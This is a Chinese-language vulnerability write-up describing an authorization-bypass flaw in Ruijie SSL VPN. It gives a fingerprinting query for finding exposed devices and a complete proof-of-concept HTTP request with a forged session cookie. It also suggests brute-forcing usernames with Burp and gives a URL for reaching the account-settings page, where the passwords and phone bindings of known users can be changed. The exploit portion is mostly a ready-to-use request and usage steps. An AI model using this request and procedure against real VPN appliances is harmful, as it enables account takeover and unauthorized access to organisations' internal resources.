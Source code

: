 # 锐捷 SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

```
Ruijie SSL VPN
```

## 网络测绘

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



![](./images/202202110919224.png)

POC请求包如下

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](./images/202202110920240.png)

用户名正确时会返回敏感信息

![](./images/202202110920291.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](./images/202202110920639.png)

点击个人设置跳转页面即可修改账号信息

![](./images/202202110920944.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973